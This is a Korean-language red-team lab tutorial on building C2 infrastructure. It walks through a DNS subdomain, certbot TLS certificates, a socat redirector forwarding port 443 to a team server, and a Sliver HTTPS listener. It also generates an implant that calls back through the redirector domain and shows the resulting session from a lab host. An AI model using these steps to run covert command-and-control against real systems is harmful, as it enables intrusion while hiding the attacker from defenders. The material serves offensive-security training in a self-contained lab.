


# 도메인과 리다이렉터 설정

팀 서버, 네뷸라, 그리고 클라우드가 설정됐으니 이제 도메인과 리다이렉터를 설정해주자. 먼저 구입한 도메인에서 A 레코드를 만들고, 서브도메인을 만들어준다. 이 서브도메인은 리다이렉터 서버를 가르킬 것이며, 동시에 C2 프레임워크 리스너의 도착 URL이 될것이다.

아래의 예시는 A 레코드에 info 라는 서브 도메인을 만든 뒤, 그 서브 도메인을 리다이렉터 서버의 공인 아이피주소를 가르키고 있다.&#x20;



레코드를 생성 후 조금 기다려본다. 그 뒤 `info.<도메인>`을 DNS 요청해보면 리다이렉터의 아이피가 반환될것이다.

```
┌──(root㉿kali)-[/opt]
└─# nslookup
> info.koreambtihealth.com
Server:         192.168.40.2
Address:        192.168.40.2#53

Non-authoritative answer:
Name:   info.koreambtihealth.com
Address: <리다이렉터-주소> 
> 
```

### TLS와 HTTPS

작전보안을 위해서 비컨과 C2 프레임워크, 그리고 리다이렉터는 모두 HTTPS로 소통할 것이다. 그러기 위해선 서버측에서 TLS 인증서가 필요하다. 도메인을 구입하고 DNS 설정이 모두 끝났으니 `certbot` 을 통해 TLS 인증서를 발급받자.

먼저 certbot을 설치한다.

```
sudo apt update -y 
sudo apt install certbot -y 
```

이후, 포트 80이 닫혀있는지 확인한다. 아마도 전에 실행중이던 socat이 계속 실행중일 것이기 때문에 `ps faux` 등으로 PID를 찾아낸 뒤 프로세스를 죽인다.

```
netstat -tulpna | grep -i 80 
ps faux 
sudo kill -9 <socat-pid>
```

이후 AWS로가 인바운드 HTTP 트래픽이 가능하도록 Security Group을 수정한다. EC2 > Security Groups > (Security Group ID) > Edit Inbound Rule > Allow TCP/80 from Anywhere IPv4 를 해주면 된다.

이후 certbot으로 TLS 인증서를 생성한다.

```
ubuntu@redirector01:~$ sudo certbot certonly --standalone 

Saving debug log to /var/log/letsencrypt/letsencrypt.log
Please enter the domain name(s) you would like on your certificate (comma and/or
space separated) (Enter 'c' to cancel): info.koreambtihealth.com
Requesting a certificate for info.koreambtihealth.com

Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/info.koreambtihealth.com/privkey.pem

< ... > 

ubuntu@redirector01:~$ 
```

인증서 파일들의 권한을 바꾼 뒤, 팀 서버로 SCP를 이용해 가져온다. 이후, 리다이렉터 서버에서는 인증서 파일을 삭제한다.

```
# 리다이렉터 서버 
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem .
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/privkey.key .
sudo chown ubuntu:ubuntu fullchain.pem
sudo chown ubuntu:ubuntu privkey.key  

# 칼리 리눅스 팀 서버 
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/fullchain.pem . 
fullchain.pem  
                                                                                              
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/privkey.pem . 
privkey.pem 
```

인증서 발급이 끝났다면 다시 AWS로 가 인바운드 HTTP 트래픽과 관련된 Security Group을 바꿔준다. 실제 레드팀 작전에서 리다이렉트 서버의 80/443 포트에 접속할 호스트/프로세스들은 타겟 호스트를 감염시킨 레드팀의 비컨 프로세스 밖에 없다. 따라서, 타겟 공간의 IP주소들을 먼저 OSINT 등으로 확인한 뒤 그 IP주소들에서만 트래픽을 받도록 화이트리스트 하면 된다.

이 튜토리얼의 경우 공격자와 타겟 공간은 모두 본인 호스트의 VMWare Workstation이다. 따라서 본인의 집 아이피 주소만 인바운드 HTTP 80/443 화이트리스트 한다.



마지막으로 리다이렉터 서버에 socat 을 구축해 443 포트로 들어오는 모든 트래픽을 팀 서버로 redirect 시킨다.

```
sudo socat tcp-listen:443,reuseaddr,fork,bind=0.0.0.0 tcp:192.168.100.2:443
```

이제 슬리버 C2 서버와 비컨을 이용해 실제로 리다이렉트가 성공적으로 이뤄지는지 알아본다.

먼저 앞서 생성했던 certbot의 TLS 인증서들을 이용해 HTTPS 리스너를 생성한다.

```
https --cert /root/redteam/certbot/fullchain.pem --key /root/redteam/certbot/privkey.pem
```

이후 에이전트를 만든다.

```
generate --http https://info.koreambtihealth.com -s /root/redteam/hosting
```

타겟 호스트에 에이전트를 옮긴 뒤, 실행한다. 콜백이 리다이렉터를 지나 팀 서버까지 성공적으로 이뤄졌는지 확인한다.

```
[*] Session 00f9b25d ROYAL_LIER - 192.168.100.3:37726 (wkstn01) - windows/amd64 - Tue, 07 Jun 2022 21:54:44 EDT

sliver > sessions

 ID         Transport   Remote Address         Hostname   Username                Operating System   Health  
========== =========== ====================== ========== ======================= ================== =========
 00f9b25d   http(s)     192.168.100.3:37726    wkstn01    WKSTN01\Administrator   windows/amd64      [ALIVE] 
```

슬리버의 세션을 확인해보면 재밌게도 Remote Access 가 피해자 호스트의 아이피주소가 아닌, 리다이렉터의 네뷸라 VPN 아이피주소인 `192.168.100.3` 인 것을 볼 수 있다. 이는 피해자 -> 리다이렉터 -> 팀 서버 형식으로 트래픽이 진행됐기 때문이다. 따라서 슬리버 C2의 입장에서는 어쨌든 비컨이 `192.168.100.3` 리다이렉터 서버에서 온 것 처럼 보이니, 그렇게 출력하는 것이다.

